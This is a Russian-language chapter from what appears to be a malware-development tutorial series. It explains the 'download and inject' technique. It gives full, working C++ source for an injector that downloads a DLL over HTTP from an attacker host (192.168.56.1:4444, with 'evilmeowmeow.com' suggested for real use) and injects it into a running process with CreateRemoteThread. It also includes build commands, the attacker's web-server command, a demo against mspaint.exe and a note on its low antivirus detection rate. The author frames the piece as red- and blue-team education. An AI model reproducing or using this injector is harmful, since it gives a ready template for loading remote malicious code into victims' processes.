










\newpage
\subsection{32. Трюки разработки вредоносного ПО. Логика загрузки и инъекции. Пример на C++.}

﷽

{width="80%"}    

Этот пост является результатом самостоятельного изучения интересного трюка, используемого в реальных вредоносных программах.    

### Загрузка и выполнение

*Download and execute* (*загрузка и выполнение*) или, в нашем случае, *download and inject* (*загрузка и инъекция*) — это интересный приём, предназначенный для загрузки полезной нагрузки или вредоносной DLL с URL-адреса, с упором на `http`, и её выполнения или инъекции. Преимущества подхода *download/execute* (или *download/inject*) заключаются в том, что он может использоваться в сетях, фильтрующих весь трафик, кроме HTTP. Он может даже работать через заранее настроенный прокси-сервер, если этот прокси не требует информации для аутентификации.    

### Практический пример

Для начала рассмотрим [классическую DLL-инъекцию](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html). В самом простом виде это будет выглядеть так:    

```cpp
/*
* Пример классической DLL-инъекции
* Автор: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // дескриптор процесса
  HANDLE rt; // удалённый поток
  LPVOID rb; // удалённый буфер

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // разбор PID процесса
  if ( atoi(argv[1]) == 0) {
    printf("PID не найден :( Выход...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Как видно, код довольно простой.    
Здесь я хочу добавить простую логику загрузки нашей `evil.dll`. В самом простом виде она будет выглядеть так:    

```cpp
// загрузка evil.dll с URL-адреса
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0",
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, 
    dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, 
    &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}
```

Эта функция загружает `evil.dll` с машины атакующего (`192.168.56.1:4444`, но в реальном сценарии это может выглядеть как `evilmeowmeow.com:80`) и сохраняет её в файл `C:\\Temp\\evil.dll`.   

Затем мы вызываем этот код в `main()`. Полный исходный код нашего инъектора:

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#pragma comment (lib, "wininet.lib")

char evilDLL[] = "C:\\Temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", 
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, 
    dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, 
    &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}

// classic DLL injection logic
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
  char* evil = getEvil();

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i\n", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Как обычно, для простоты мы создаем DLL, которая просто выводит всплывающее окно с сообщением:

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Итак, после того как мы разобрали весь код инъектора, можем его протестировать.    

### Демо

Сначала компилируем DLL:   

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

Затем компилируем инъектор:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-lwininet -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Подготавливаем простой веб-сервер на машине атакующего:    

```bash
python3 -m http.server 4444
```

{width="80%"}    

Убедимся, что указанный путь существует на машине жертвы (`C:\Temp`):    

{width="80%"}    

Наконец, запускаем процесс жертвы `mspaint.exe` и запускаем инъектор `hack.exe`:    

```cmd
.\hack.exe <PID mspaint.exe>
```

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

Как видно, всё работает идеально! :)    

Загружаем файл на VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/00e3254cdf384d5c1e15e217e89df9f78b73db7a2b0d2b7f5441c6d8be804961/detection](https://www.virustotal.com/gui/file/00e3254cdf384d5c1e15e217e89df9f78b73db7a2b0d2b7f5441c6d8be804961/detection)    

**Итак, 6 из 69 антивирусных движков обнаруживают наш файл как вредоносный.**    

Я надеюсь, что этот раздел повысит осведомлённость синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.      

[InternetOpen](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena)    
[InternetOpenUrl](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw)    
[InternetReadFile](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile)    
[InternetCloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetclosehandle)    
[WriteFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile)    
[CreateFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)    
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)    

[classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)    
[исходный код на Github](https://github.com/cocomelonc/2022-04-13-malware-injection-19)
